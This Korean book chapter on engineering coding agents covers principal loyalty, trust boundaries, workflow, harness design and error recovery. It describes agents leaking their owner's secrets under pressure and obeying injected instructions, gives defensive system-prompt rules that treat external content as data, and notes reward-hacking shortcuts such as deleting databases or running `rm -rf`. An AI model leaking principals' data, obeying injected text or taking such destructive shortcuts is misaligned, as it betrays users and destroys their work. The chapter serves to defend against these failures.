최첨단 모델을 이런 처지에 놓고 실험해 보면, 명확한 **충성도 스펙트럼**이 보이고, 양 극단에서 모두 전복된다[^ch5-1]. 한쪽 극단은 **너무 솔직한** 것으로, 주인의 사적 정보(예: "우리 측 최소선은 12000이야")를 상대에게 그대로 흘리고, 몇 차례 반복 압박에 시달리면 곧장 항복하고 양보한다. 다른 쪽 극단은 **너무 의심 많은** 것으로, 주인의 정당한 요청조차 일괄 거부하여 오히려 과제를 완수하지 못한다. 정말 어려운 점은, 이 두 실패가 하나의 시소와 같다는 것이다. 비밀 유출을 꽉 막으면 이내 과도한 거부 쪽으로 미끄러지며, 둘을 겸하기 어렵다.

[^ch5-1]: 이 충성도 스펙트럼과 수칙의 전체 평가는 Li, Bojie and Noah Shi. *Whose Side Is Your Agent On? Multi-Party Principal Loyalty in LLM Agents.* arXiv:2606.30383, 2026을 참조.

이것은 코딩 에이전트에 특히 들어맞는다. 저장소에서 읽은 신뢰할 수 없는 콘텐츠, 어떤 도구가 반환한 출력, 제3자 MCP 서버가 보내온 지시는 모두 에이전트를 전향시키려는 "상대"다. **프롬프트 주입은 본질적으로 한 번의 포섭이다**(제2, 4장). 따라서 하네스 층은 "충성 대상"을 명시적으로 못 박아야 한다. 주인의 지시가 최우선 순위이며, 외부 교섭 당사자로부터 오는 모든 콘텐츠는 기본적으로 "참고는 되되 지시적 효력은 없는" 데이터로 격하된다. 시스템 프롬프트에 옮기면, 실효성 있는 **충성도 수칙**은 이렇다. 주인의 사적 정보와 그 "존재 자체"를 보호한다. 거부할 때 거부 목록을 한 줄한 줄 읽어 주지 않는다(그 자체가 유출이다). 비밀 최소선이 대외 입장과 같지 않다. 주인이 명확하고 구체적으로 지시한 일만 실행한다. 반복 압박을 견뎌 낸다. 본질적으로 이것은 모델이 기본적으로 갖지 못한 입장을 하네스로 보탠 것이다. **주인에는 절대 충성하고, 외부 교섭 당사자에는 신중을 기한다.**

**AI가 작성한 코드 자체를 신뢰할 수 없을 때: 신뢰 경계를 아래로 내리기.**

앞 단락의 충성도 수칙은 에이전트가 규칙을 지킬 **가능성을 높인다**. 그러나 고위험 데이터 조작에 대해 "가능성"만으로는 부족하다. "에이전트가 스스로 지켜 주기를 바라"는 것에서, 데이터 층에서 강제 집행하는 것으로 제약을 아래로 내려야 한다. 더 철저한 입장은[^ch5-2] 이렇다. **차라리 응용 층을 신뢰할 수 없는 것으로 간주하고, 데이터 불변량의 강제 집행을 그 아래로 내린다.** 지난 30년간 소프트웨어의 무결성 경계는 줄곧 **응용 층**에 있었다. 핸들러 코드가 누가 어떤 조작을 할 수 있고 어떤 값이 합법적인지를 결정하며, 데이터베이스는 이 코드를 무조건 신뢰했다. 그런데 LLM이 생성한 핸들러는 흔히 권한과 무결성 검사를 빠뜨리고, 자율 에이전트는 생산 데이터에 직접 손을 대어, 이 전제가 깨졌다. 새 방안(권한 내장형 데이터 객체, Permission-Embedded Data Objects라 부를 수 있다)은 각 데이터 엔터티가 **인간이 검토한 스키마** 안에 선언적 권한 규칙, 검증기, 결과 서술을 스스로 갖추고, 하나의 런타임 파이프라인이 **매 쓰기마다** 강제 집행하도록 한다. 핵심 원시 타입(primitive)은 각 조작에 매달린 **접근 컨텍스트(access context)**다. 다시 생성된 핸들러는 그것이 서비스하는 사용자의 권한으로 실행되고, 자율 에이전트는 자신의 제한된 신원(scoped principal)으로 실행된다. 에이전트의 충성만 바라기보다, 아키텍처 차원에서 에이전트를 권한 제한된 주체로 격하하여, 포섭되더라도 선을 넘지 못하게 하는 것이다.

[^ch5-2]: 이 "신뢰 경계를 응용 층 아래로 내리는" 설계와 평가(각 방안의 위반 횟수 전체 대조 포함)는 Li, Bojie. *The Application Layer Is No Longer Trusted: Enforcing Data Invariants Below AI-Written Code and AI Agents.* 2026(출간 예정)을 참조.

동일한 프롬프트 집합에 대한 대조 실험에서, 이 메커니즘은 **선언된 불변량을 위반하는 쓰기가 단 한 건도 없음**을 달성했다. 반면 네이키드 SQL, LLM이 스스로 작성한 검사, 헌법식 프롬프트, 동작 경계 차단기는 각기 수 차례에서 수십 차례의 위반을 새어 보낸다. 이것은 "더 가능성이 높이 옳다"가 아니라 "틀릴 수 없다"이며, 대가는 매 쓰기마다 약 2밀리초가 더 드는 것뿐이다. 물론 보장에는 조건이 있다. 스키마가 진정으로 원하는 불변량을 빠짐없이 적어야 하고, 배포에서 신뢰할 수 없는 층이 저장소를 우회해 데이터베이스로 직접 연결되는 모든 경로를 막아야 한다. 코딩 에이전트에게 이것은 중요한 아키텍처 원칙을 하나 제시한다. **코드를 작성하는 주체와 코드를 실행하는 주체 모두가 신뢰할 수 없을 수 있다면, 진정으로 신뢰할 수 있는 제약은 생성된 코드 안에 있는 게 아니라 그 아래의 인간이 검토한 기반에 있어야 한다.** 이는 제1장의 "지도보다 제약 우선" 원칙이 데이터 층에서 취하는 궁극의 형태이기도 하다.

### 코딩 에이전트의 전체 흐름





아래에 서술하는 것은 **권장되는 공학적 흐름**으로, 소프트웨어 엔지니어링의 모범 사례를 에이전트에 투영한 것이며 이상적 형태를 그린 것이다. 현실의 코딩 에이전트(클로드 코드, OpenClaw 등)는 반응형 반복 루프로 작업하는 경우가 더 많으며, 이 흐름을 **필요에 따라 다듬어** 사용한다. 단순한 과제에서는 설계 문서를 건너뛰고, 매 단계마다 사용자 승인을 기다리며 차단하지도 않는다. 과제가 복잡하고 영향 범위가 클 때만 전체 단계를 끝까지 밟는다.

**프로젝트 문서화.**

코딩 에이전트의 작업은 프로젝트에 대한 체계적 이해에서 시작된다. 에이전트가 코드 저장소를 처음 접했을 때 가장 먼저 할 일은 코드를 당장 고치는 것이 아니라, 프로젝트 전체에 대한 인지 틀을 세우는 것이다. 마치 신규 입사한 엔지니어가 첫날 곧바로 코드를 제출하지 않고 먼저 프로젝트 구조부터 익히는 것과 같다. 에이전트는 우선 프로젝트에 문서가 있는지(README, 아키텍처 설계 문서, 개발자 안내서)를 확인한다.

핵심 문서가 빠져 있다면, 에이전트는 맹목적 상태에서 작업을 시작해서는 안 되며 자발적으로 문서화 책임을 져야 한다. 코드베이스를 체계적으로 읽어 주요 모듈, 핵심 추상화, 컴포넌트 간 의존 관계를 파악하고, 아키텍처 개요, 디렉터리 구조, 테스트 실행 안내를 담은 초기 문서를 생성한다. 이 문서는 에이전트의 후속 작업에 청사진을 제공하는 동시에 다른 개발자에게 진입점을 제공한다. 여기에 핵심 원칙이 하나 담긴다. 지식의 명시화가 효율적 협업의 전제라는 것이다.

프로젝트 문서화는 오늘날 에이전트 전용 형태를 하나 갖게 되었다. **프로젝트 지시 파일**이 바로 그것이다. CLAUDE.md, AGENTS.md, .cursorrules 같은 파일은 업계 사실상의 표준이 되었다. 이 파일들은 매 세션 시작 시 자동으로 컨텍스트에 주입되어, 프로젝트 수준의 시스템 프롬프트 역할을 한다. 인간 독자를 겨냥한 README와 달리, 지시 파일이 담는 것은 에이전트를 겨냥한 행동 약정이다. 빌드와 테스트 명령("npm test가 아니라 pnpm test를 쓴다"), 코드 스타일("any 타입을 금지한다"), 명확한 금지 영역("migrations/ 디렉터리는 바꾸지 않는다")이 그것이다. 이는 OpenClaw의 `SOUL.md`(에이전트의 정체성과 행동 규칙을 정의)와 `MEMORY.md`(세션 간 경험을 침전)과 같은 접근의 다른 층위에서의 적용이다. SOUL.md는 "에이전트가 누구인지"를, 프로젝트 지시 파일은 "이 프로젝트 안에서 어떻게 일해야 하는지"를 약정한다. 제2장 컨텍스트 엔지니어링의 관점에서 보면, 지시 파일은 또한 가장 경제적인 안정적 접두사이기도 하다. 내용이 과제에 따라 변하지 않아 KV Cache에 자연히 친화적이며, "지식은 반드시 코드베이스 자체에 존재해야 한다"는 원칙의 가장 직접적인 실천이기도 하다.

지식 명시화 원칙에는 또 하나 흥미로운 귀결이 있다. **원격 근무에 친화적인 팀은 대개 AI 에이전트에도 친화적**이라는 것이다. 원격 팀은 비동기 소통과 문서화에 의존할 수밖에 없다. 의사결정은 문서에 기록되고, 맥락은 이슈와 PR 설명에 쓰이고, 부족 지식(일부만 아는 암묵 지식)은 개발자 안내서에 침전되며, 자리 옆 동료의 구두 전달이나 회의실 화이트보드에 의존하지 않는다. 이는 곧 에이전트가 소비할 수 있는 지식의 형태다. 에이전트는 구두 약정을 읽지 못하지만, 설계 문서는 읽을 수 있다. 반대로 "옆자리 동료에게 물어보기"에 크게 의존하는 팀은 신규 입사한 원격 직원에게나 에이전트에게나 진입 비용이 똑같이 높다. 한 팀의 "AI-ready" 정도를 평가하는 단순한 대리 지표가 하나 있다. 원격 신규 인력이 코드 저장소와 문서만으로 독립적으로 업무를 시작할 수 있는지가 그것이다.

**과제 이해와 요구사항 명확화.**

경계가 명확하고 영향 범위가 제한된 단순 요구, 예컨대 이미 알려진 버그 수정이나 어떤 함수의 매개변수 조정이라면, 에이전트는 곧바로 구현 단계로 들어갈 수 있다. 그러나 소프트웨어 개발의 대부분 과제는 그렇게 단순하지 않다.

복잡한 요구에는 에이전트가 더 신중하고 체계적이어야 한다. 복잡성은 여러 차원에서 비롯될 수 있다. 요구 자체의 모호성(사용자는 원하는 것을 알지만 정확히 표현하지 못함), 구현 경로의 다양성(여러 기술 방안이 가능하고 각기 트레이드오프가 다름), 또는 영향 범위의 광범위함(여러 모듈을 수정해야 하고 기존 기능을 훼손할 수 있음). 에이전트는 탐색적 조사로 경계를 명확히 해야 하고, 필요하면 능동적으로 사용자와 대화해야 한다. 예컨대 사용자가 "시스템 성능을 최적화하라"고 요구하면, 에이전트는 먼저 밝혀야 한다. 최적화의 구체적 목표가 무엇인지(응답 시간 단축, 메모리 점유 감소, 처리량 향상 중 어느 것), 허용되는 트레이드오프는 무엇인지(코드 복잡도 증가를 허용하는지), 현재 병목은 어디에 있는지. 요구가 모호한 상태에서 코딩을 시작하면 대개 대규모 재작업으로 이어진다.

**설계 문서 작성.**

설계 문서는 추상적 요구를 구체적 구현 계획으로 옮기는 다리이며, 핵심 질문에 답해야 한다. 어떤 모듈을 왜 수정하는가, 어떤 방안을 채택하며 그 상대적 장점은 무엇인가, 어떤 새 의존성을 도입해야 하는가, 시스템에 미칠 영향은 무엇인가. 설계 문서를 작성하는 일 자체가 깊은 사고이다. 대규모 코딩에 돌입하기 전에 개념 수준에서 방안의 타당성을 검증하게 강제하기 때문이다. 더 중요한 것, 설계 문서는 인간에게 효율적인 개입점을 제공한다. 간결한 설계 문서를 검토하는 것이 수백 줄의 코드를 검토하는 것보다 훨씬 쉽다. 에이전트는 설계 문서를 완성한 뒤 사용자 검토에 회부하고, 승인을 기다린 뒤에야 계속 진행해야 한다.

**코드 구현과 테스트.**

설계 승인을 얻은 뒤, 에이전트는 프로젝트의 코드 규범을 따라 구현하고, 기존 추상화와 도구를 재사용하며, 필요시 적절히 리팩터링하여 코드베이스의 건강을 유지한다.

구현이 끝나면 곧바로 테스트 주도의 품질 보증 단계에 들어간다. 신규 또는 수정된 기능에 대한 테스트 케이스를 작성하여 정상 경로, 경계 조건, 예외 상황을 망라한다. 테스트를 작성한 뒤 테스트 스위트를 실행한다. 테스트가 실패하면 에이전트는 단순히 사용자에게 실패를 보고해서는 안 되며, 원인을 분석하고 문제를 위치시키고 코드를 수정하여 모든 테스트가 통과하게 해야 한다. 이 "테스트-수정" 순환은 여러 차례 반복될 수 있으며, 바로 이 자기 교정 능력이 코딩 에이전트를 코드 생성기에서 신뢰할 수 있는 엔지니어링 조수로 끌어올린다. 반대로 말하면, 코딩 에이전트가 가장 흔히 게으름을 부리는 방식이 바로 이 단계를 건너뛰는 것이다. 코드를 다 작성하고 테스트도 돌리지 않은 채 "과제 완료"를 보고하는 것이다. "코드를 다 썼다"가 아니라 "테스트가 통과했다"를 완료 기준으로 삼는 것이야말로 루프 엔지니어링의 "검증으로 언제 멈출 수 있는지 판정" 원칙이 코딩 시나리오에서 착지한 것이다(제10장에서 이런 "조기 종료" 문제를 체계적으로 다룬다).

모든 테스트가 통과하더라도 에이전트의 작업은 끝나지 않는다. 이어서 코드 리뷰 단계가 온다. 에이전트는 자신이 생성한 코드를 비판적으로 살핀다. 가독성은 어떤가, 주석은 충분한가. 잠재적 성능 문제나 보안 취약점은 없는가. 프로젝트의 코드 스타일과 모범 사례를 따르는가. 이 자기 리뷰는 코드를 읽거나, lint 도구를 실행하거나, 전용 코드 리뷰 서브 에이전트(Sub-Agent)를 호출하는 방식으로 이루어질 수 있다. 리뷰에서 문제가 발견되면, 결함이 있는 코드를 사용자에게 전달해서는 안 되며 수정 단계로 돌아가 다듬어야 한다.

**문서 동기화와 인도.**

코드 수정이 아키텍처 수준의 변화를 수반할 경우, 예컨대 새 모듈을 도입하거나, 모듈 간 의존 관계를 바꾸거나, 핵심 추상화의 의미를 수정할 경우, 에이전트는 그에 맞춰 아키텍처 문서를 갱신해야 한다. 시대에 뒤떨어진 문서는 문서가 없는 것보다 더 나쁘다. 미래의 개발자를 그릇으로 이끌기 때문이다. 매 중요 수정 뒤 자동으로 문서를 갱신함으로써, 에이전트는 프로젝트 지식베이스의 완전성과 최신성을 유지하는 데 기여한다.

이 흐름은 소프트웨어 엔지니어링의 핵심 원칙을 구현한다. 행동에 앞서 계획, 처음부터 끝까지 검증, 코드와 함께 문서를 진화시킨다.

### 하네스 엔지니어링의 코딩 에이전트 실천

제1장에서 하네스 엔지니어링의 개념과 **에이전트 = 모델 + 하네스**라는 공식을 도입했다. 여기서의 하네스는 핵심 공식의 컨텍스트와 도구, 그리고 제약, 검증, 교정 메커니즘을 포함한다. 다섯이 함께 제1장이 정의하는 하네스를 구성한다. 코딩 에이전트는 아마도 하네스 엔지니어링의 수혜가 가장 큰 영역일 것이다. 코드 작업은 모든 에이전트 과제 가운데 **검증 가능성이 가장 높은** 부류이며, 제약, 검증, 교정 모두가 기존의 인프라에 기댈 수 있다. 이 절은 코딩 에이전트 시나리오에서의 구체적 실천에 초점을 맞춘다.

안정적으로 실행되는지는 대개 모델이 얼마나 강한지에 달린 것이 아니라, 에이전트를 둘러싼 인프라가 얼마나 탄탄한지에 달린다. 제1장은 하네스를 두 층으로 나누었다. **컨텍스트와 도구**(에이전트가 일을 할 수 있게)와 **제약, 검증, 교정**(에이전트가 잘못을 저지르지 않게)이다. 코딩 에이전트 시나리오에서 이들은 구체적 공학 컴포넌트로 착지한다.

- **인수 기준선**: 무엇이 완료로 인정되는가. 테스트 스위트, CI 파이프라인(지속적 통합 파이프라인, 코드 제출 후 자동으로 실행되는 일련의 검사), 코드 리뷰 기준.
- **실행 경계**: 에이전트가 무엇을 만질 수 있고 무엇을 만질 수 없는가. 모듈 경계, 의존성 규칙, 권한 통제.
- **피드백 신호**: 자동화된 옳고 그름 판정. 린터(Linter, 코드 규범 검사 도구로 형식 오류와 잠재 문제를 자동 발견) 출력, 테스트 결과, 타입 검사 오류.
- **후퇴 수단**: 문제가 생겼을 때 어떻게 복구하는가. 깃 버전 관리, 샌드박스 격리, 스냅샷 롤백.

**코딩 에이전트가 하네스 엔지니어링에 특히 적합한 까닭.**

과제의 명확도와 검증 자동화 정도라는 두 차원으로 과제를 네 가지 상태로 나눌 수 있다. 목표가 명확하고 결과를 자동 검증할 수 있으면 에이전트가 가장 발휘하기 좋은 영역이다. 목표는 명확하지만 인수가 사람의 검토에 달려 있으면 처리량의 한계는 곧 사람의 검토 속도다. 자동화 피드백은 있지만 목표가 모호하면, 시스템은 효율적으로 잘못된 방향으로 달린다. 둘 다 없으면 에이전트는 거의 쓸모가 없다. 표 5-1은 이 네 가지 상태를 보여 주며, 하네스의 목표는 가능한 한 많은 과제를 "목표 명확 + 검증 자동화" 사분면으로 밀어 넣는 것이다.

표 5-1 과제 명확도와 검증 자동화 정도의 사분면

| | 결과를 자동 검증 가능 | 결과를 인력 검증 필요 |
|----------|----------------------------------------------|---------------------------------------|
| **목표 명확** | 최적 영역: 테스트 케이스가 있는 버그 수정 | 처리량 제한: 코드 리팩터링은 인력 검토 필요 |
| **목표 모호** | 효율적으로 빗나감: 린터로 "코드 품질" 최적화 | 시작하기 어려움: "UI를 더 보기 좋게" |

코드 작업은 자연스럽게 이 사분면의 핵심에 자리한다. 테스트 스위트가 명확한 인수 기준을 제공하고, 린터와 타입 검사기가 즉각적인 자동 검증을 제공하며, 깃이 완벽한 버전 관리와 후퇴 능력을 제공한다. 이것이 코딩 에이전트가 현재 모든 에이전트 유형 가운데 성숙도가 가장 높은 이유를 설명한다. 코드 생성 모델이 특별히 강해서가 아니라, 소프트웨어 엔지니어링이 수십 년간 축적한 인프라가 자연스럽게 강력한 하네스 한 벌을 구성하기 때문이다.

**업계 실천.**

세 사례의 하네스 실천이 앞선 원칙을 뒷받침한다.

- **대규모 코드 마이그레이션 사례**(한 대형 기술 기업이 공유한 대규모 코드 마이그레이션 실천): 핵심은 모델이 강한 것이 아니라 하네스가 세 가지를 제대로 했다는 것이다. 지식은 반드시 코드베이스 자체에 존재해야 한다(에이전트에게 보이지 않는 것은 없는 것과 같다), 제약은 문서가 아니라 린터와 CI 안에 인코딩해야 한다, 검증과 교정은 전체 사슬이 자동화되어야 한다.
- **LangChain**: 하네스 최적화(시스템 프롬프트, 도구 미들웨어, 자기 검증 순환)만으로 벤치마크 과제 성과를 유의미하게 끌어올렸다. 특히 "에이전트로 하여금 실패 궤적을 분석해 하네스를 개선"하는 방법론은 하네스 엔지니어링을 인간 경험 주도에서 데이터 주도로 전환했다.
- **Anthropic**: 긴 과제를 두 역할로 나누었다. 초기화 에이전트가 큰 과제를 작업 목록으로 분해하고, 실행 에이전트가 단계적으로 진행하며 중간 산출물(완료된 코드 파일, 갱신된 작업 목록 등)을 다음 차례에 넘겨 계속 사용하게 한다. 이런 분업은 장시간 실행되는 에이전트의 "한 번에 너무 많이 하려 함" 또는 "조기에 완료했다고 주장함" 문제를 해결한다.

**코딩 에이전트에서 범용 하네스 설계 원칙으로.**

코딩 에이전트의 하네스 실천은 모든 에이전트 시스템에 이전 가능한 설계 원칙을 제공한다.

1. **지도보다 제약 우선**: 코드로 강제할 수 있는 규칙은 문서의 권고로 두지 않는다. 린터 규칙, 타입 제약, CI 검사의 가치는 시스템 프롬프트의 "…를 따르세요"식 지도보다 훨씬 크다. 전자는 "할 수 없게" 만들고 후자는 "하지 않기를 권고"할 뿐이다.
2. **검증은 자동화**: 인력 검토는 확장 불가능한 병목이다. 테스트 스위트, 코드 품질 검사, 행위 모니터링, 이런 인프라 투자의 회수율은 인력을 늘리는 것보다 훨씬 높다.
3. **피드백은 빠를수록, 구조화될수록 좋다**: 오류 메시지가 상세할수록, 오류 발생 순간에 가까울수록, 에이전트의 교정 효율은 높다. 제2장의 에이전트 상태 표시줄 기술(상세 오류 정보, 도구 호출 카운터)이 바로 이 원칙의 구현이다.
4. **후퇴는 신뢰성 있게**: 에이전트는 안전망 안에서 작업해야 대담하게 시행착오를 겪는다. 깃 브랜치, 샌드박스 환경, 스냅샷 메커니즘이 어떤 오류든 되돌릴 수 있게 보장한다.

**제약의 또 다른 목적: 과정적 오류 방지.** 인수 기준선이 관리하는 것은 결과가 옳은가이고, 실행 경계가 관리하는 것은 **과정**이다. 결과가 옳더라도 잘못된 방법으로 도달해서는 안 된다. 데이터베이스 고장을 복구하면서 데이터베이스를 통째로 지우고 다시 만들면 "복구"는 확실히 효과가 있지만 데이터는 사라진다. 컴파일 오류를 고치면서 코드를 모두 지우고 다시 쓰면 컴파일은 확실히 통과하지만 구현은 사라진다. 이런 파괴적 지름길은 언제나 존재한다. 최종 평가 지표에 제한을 적어 넣더라도, 에이전트는 흔히 우회할 방법을 찾아낸다. 이는 바로 제7장이 논의하는 보상 해킹(reward hacking)이 에이전트 과제에서 드러나는 일상적 형태다. 따라서 생산 수준의 하네스는 `rm -rf`, 생산 데이터 삭제, 읽지 않은 파일 덮어쓰기 같은 위험 동작에 전용 검사와 승인을 둔다(이 장 보안 절의 의미 분석, 제4장의 사이드카 재검). 제약하는 것은 결과가 아니라 **동작**이다. 제7장의 RLVP(검증 경로 패널티, "결과에 보상하고 경로에 패널티를 준다")는 훈련 측에서 같은 질문에 답한다. 최종 결과 보상 외에, 과정에서 검증 가능한 위반 동작에 패널티를 부과하여 "파괴적 수단을 쓰지 않는다"를 모델의 공학적 상식으로 내면화한다. 기존 모델에는 하네스 가드레일이 외부 제약이고, 훈련 가능 모델에는 과정 패널티가 내면화이다. 둘의 목표는 같다.

**도구 편성: 장애 경계 통제**. 성숙한 코딩 에이전트는 병렬 도구 호출을 지원하며, 하네스 관점에서의 고유한 문제는 **장애가 어떻게 전파되는가**이다. 한 도구가 실패할 때 어떤 호출을 중단하고 어떤 호출을 계속해야 하는가. 원칙은 장애가 동일한 병렬 호출 묶음 안에서만 전파되고 부모 조작까지 올라가지 않는 것이다. 예컨대 세 개의 파일을 동시에 읽을 때 하나를 찾지 못했다면, 그 하나만 실패로 보고해야지, 다른 둘을 취소해서도 안 되고 전체 과제를 중단해서도 안 된다. 이런 정밀한 장애 경계 통제가 "하나의 명령 실패가 전체 과제 중단으로 이어지는" 취약한 패턴을 피하게 한다. 병렬 호출, 스트리밍 파싱, 연쇄 중단의 구체적 메커니즘은 이 장의 "구현 팁" 절에서 다룬다.

### 장애와 오류 복구

앞 절에서는 하네스 엔지니어링의 원칙과 컴포넌트를 제시했다. 이 절에서는 그 가운데 공학적 격차를 가장 크게 벌리는 한 블록인 **장애와 오류 복구**를 깊이 파고든다. 제1장의 절단 실험은 이미 문제의 심각성을 보여 주었다. 도구 결과 피드백 하나가 빠지는 것만으로도 에이전트는 무한 순환에 빠질 수 있다. 그런데 실제 생산 환경의 장애는 실험에서보다 훨씬 다양하다. 이 절은 세 질문에 체계적으로 답한다. 생산 수준의 하네스는 어떤 장애를 만나는가? 어떻게 검출하고 복구하는가? 그리고 언제 반드시 종료해야 하는가[^ch5-3]?

[^ch5-3]: 이 절의 장애 분류와 메커니즘 분석은 클로드 코드 등 생산 수준 에이전트 구현의 소스 코드 연구에 기반한다. 구체적 구현은 버전에 따라 빠르게 진화하며, 이 절은 그 가운데 안정적인 공학 원칙만 추려 낸 것이다.

**장애 분류학: 네 층의 장애.** 시스템 대응의 첫걸음은 분류다. 장애가 발생한 위치에 따라 네 층으로 나눌 수 있다.

- **API 층**: 속도 제한(HTTP 429), 서비스 과부하, 요청 타임아웃, 연결 중단, 출력 상한 도달로 인한 잘림. 이 부류의 장애는 과제 내용과 무관한 인프라 노이즈다.
- **도구 층**: 환각 호출(존재하지 않는 도구 호출), 매개변수 기형(도구의 입력 제약을 충족하지 못함), 실행 중 예외 발생, 그리고 가장 위험한 한 가지—도구가 같은 오류를 반복적으로 반환하는데도 모델이 아무것도 바꾸지 않고 반복적으로 재시도.
- **컨텍스트 층**: 컨텍스트 창 넘침, 압축 실패, 궤적 구조 훼손(도구 호출에 대응하는 결과 메시지가 빠진 경우 등).
- **제어 흐름 층**: 사각 순환(같은 조작을 반복하며 진전이 전혀 없음)과 데스 스파이럴(오류가 촉발한 복구 논리 자신이 다시 LLM을 호출하고, 다시 오류가 나고, 연쇄 반응).

**검출: 먼저 분류, 이어서 계수.** 장애를 잡은 뒤 첫 판단은 "재시도할까"가 아니라 "재시도할 가치가 있나"이다. 재시도 가능한 오류(속도 제한, 과부하, 네트워크 지터)만 재시도 의미가 있다. 재시도 불가능한 오류(매개변수 위법, 권한 부족, 도구 부재)는 몇 번을 그대로 재시도해도 결과가 같으므로, 입력이나 전략을 바꾸어야 한다. 생산 수준의 하네스는 "오류가 나면 재시도"라는 식의 막연함이 아니라, 오류에서 복구 전략으로의 사전(매핑)표를 유지한다.

단일 오류 외에, **패턴**도 검출해야 한다. 하나는 반복 호출 지문이다. "도구 이름 + 매개변수"로 지문을 계산하여, 같은 지문이 반복해서 나타나면 진전 없는 순환의 명확한 신호로 본다. 제1장의 절단 실험에서 에이전트가 같은 도구를 반복 호출한 것이 바로 이 패턴이다. 다른 하나는 연속 실패 계수다. 각 복구 경로마다 독립된 카운터를 유지하여, 뒤의 서킷 브레이커에 근거를 제공한다.

오류로 나타나지 않는 부류의 장애도 있어서, 전용 **활성과 무결성 모니터링**이 필요하다. 스트리밍 연결에서 가장 위험한 실패 모드는 연결 끊김이 아니다(그것은 즉시 오류로 보고된다). 조용한 멈춤이다. 연결은 성공했지만 데이터 흐름이 멈춘 상태로, 마치 수도관은 연결되어 있지만 물이 나오지 않는 것과 같다. SDK의 타임아웃 메커니즘은 흔히 초기 연결만을 다루고 전송 과정을 다루지 않으므로, 생산 수준의 에이전트는 독립적인 유휴 와치독(watchdog timer, 설정 시간 동안 새 출력이 없으면 멈춤으로 판정)을 둬야 하며, 타임아웃 후 능동적으로 매달린 스트림을 죽이고 재시도를 촉발한다. 이는 하나의 원칙으로 일반화할 수 있다. **모든 장연결은 연결 타임아웃이 아니라 활성 신호를 필요로 한다.** 무결성 모니터링은 궤적 구조를 겨냥한다. 도구 호출에 대응하는 결과 메시지가 빠져 있음을 발견하면, 시스템은 구조 이상을 모델이나 사용자에게 던지는 게 아니라 컨텍스트에 주입하기 전에 자동으로 대응 관계를 복구한다. 주목할 만한 공학 디테일 하나. 일부 생산 수준 에이전트는 제품 모드와 훈련 데이터 수집 모드를 동시에 운영한다. 제품 모드에서는 자리 표시자로 빠진 메시지를 메울 수 있지만, 훈련 모드에서는 합성 자리 표시자가 훈련 데이터를 오염시키므로 복구를 거부한다. "제품 모드는 관대하게, 훈련 모드는 엄격하게"라는 이중 기준은 하네스와 모델 훈련의 깊은 결합을 보여 준다.

**복구: 단계적 승격, 단계별 투명.** 복구 수단은 사용자에게 투명한 정도에 따라 단계를 나누며, 낮은 단계로 해결되면 승격하지 않는다.

1. **조용한 재시도**. 재시도 가능한 오류의 기본 동작이다. 성패를 가르는 디테일이 두 가지 있다. 지수 백오프에 무작위 지터를 겹쳐, 다수 클라이언트의 동기 재시도로 인한 이차 혼잡을 피하고, 서버가 반환한 대기 시간 힌트를 존중한다. 그리고 전경 호출과 배경 호출을 구분한다. 주 루프의 요청 실패는 재시도하되, 제목 생성, 입력 제안 같은 보조적 배경 호출 실패는 곧바로 포기한다. 그렇지 않으면 배경 재시도가 주 링크의 할당량을 잠식하여 "재시도 증폭"을 빚는다.
2. **강등과 잇기**. 재시도가 통하지 않을 때, 요청 자체를 바꾸어 다시 시도한다. 출력 상한(생성 중 길이 제한으로 잘림)을 예로 들면, 먼저 조용히 출력 상한을 올려 재전송하고, 그래도 모자라면 메시지 끝에 메타 지시를 추가해 모델이 끊긴 지점에서 이어 생성하게 한다. 주 모델이 계속 과부하일 때는 백업 모델로 강등한다(단, 기존 모델 전용의 형식 블록을 먼저 벗겨 내야 한다. 그렇지 않으면 새 모델이 과거 메시지를 파싱하지 못한다). 고비용 모드가 속도 제한에 걸리면 일시적으로 표준 모드로 내려간다.
3. **사용자에게 노출**. 모든 자동 수단을 다 쓴 뒤에야 오류를 제시하며, 이미 시도한 복구 동작을 함께 표시한다.

도구 층 오류는 다른 길을 간다. **세션을 종료하지 않고, 오류를 모델의 입력으로 바꾼다.** 환각 호출은 "도구가 존재하지 않음"이라는 구조화된 오류 결과를 받는다. 매개변수 검증 실패는 입력 제약 힌트가 딸린 오류를 받는다. 기형 매개변수(객체여야 할 곳에 문자열이 나온 경우 등)는 실행 전에 프로그램적 복구를 거친다. 이런 오류는 일반 도구 결과로서 컨텍스트에 진입하며, 다음 차례에 모델이 스스로 교정한다. 이는 앞의 "피드백은 구조화될수록 좋다" 원칙의 적용이다. 되먹여 주는 오류가 구체적일수록 모델의 자기 교정 성공률은 높다.

이 절의 핵심 원칙은 이렇다. **오류 처리의 경계는 단일 요청이 아니라 전체 복구 순환이다.** 복구 불가능함을 확인하기 전에는, 중간 오류를 소비자(사용자이든 이벤트를 구독하는 하위 시스템이든)에게 노출해서는 안 된다. 복구 기간에는 오류 메시지를 보류했다가, 복구가 성공하면 소비자는 전혀 알아채지 못하고, 전부 실패할 때만 한꺼번에 내보낸다. 이는 제1장의 "복구 불가능을 확인하기 전에는 중간 상태를 노출하지 않는다"는 교정 원칙의 공학적 구현이다.

